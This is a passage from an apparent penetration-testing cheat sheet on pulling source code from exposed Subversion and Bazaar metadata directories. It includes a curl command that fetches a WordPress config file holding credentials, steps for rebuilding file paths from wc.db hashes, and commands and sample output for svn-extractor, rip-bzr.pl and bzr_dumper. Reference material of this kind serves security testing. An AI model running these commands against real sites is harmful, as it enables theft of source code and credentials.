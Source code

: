 ## Subversion

### Example (Wordpress)

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database from http://server/path_to_vulnerable_site/.svn/wc.db
    ```powershell
    INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
    ```
2. Download interesting files
    * remove \$sha1\$ prefix
    * add .svn-base postfix
    * use first byte from hash as a subdirectory of the `pristine/` directory (`94` in this case)
    * create complete path, which will be: `http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`

### Tools

#### svn-extractor

```powershell
git clone https://github.com/anantshri/svn-extractor.git
python svn-extractor.py –url "url with .svn available"
```

## Bazaar

### Tools

#### rip-bzr.pl

```powershell
wget https://raw.githubusercontent.com/kost/dvcs-ripper/master/rip-bzr.pl
docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-bzr.pl -v -u
```

#### bzr_dumper

```powershell
git clone https://github.com/SeahunOh/bzr_dumper
python3 dumper.py -u "http://127.0.0.1:5000/" -o source
Created a standalone tree (format: 2a)                                                                                                                                                       
[!] Target : http://127.0.0.1:5000/
[+] Start.
[+] GET repository/pack-names
[+] GET README
[+] GET checkout/dirstate
[+] GET checkout/views
[+] GET branch/branch.conf
[+] GET branch/format
[+] GET branch/last-revision
[+] GET branch/tag
[+] GET b'154411f0f33adc3ff8cfb3d34209cbd1'
[*] Finish

$ bzr revert
 N  application.py
 N  database.py
 N  static/   
```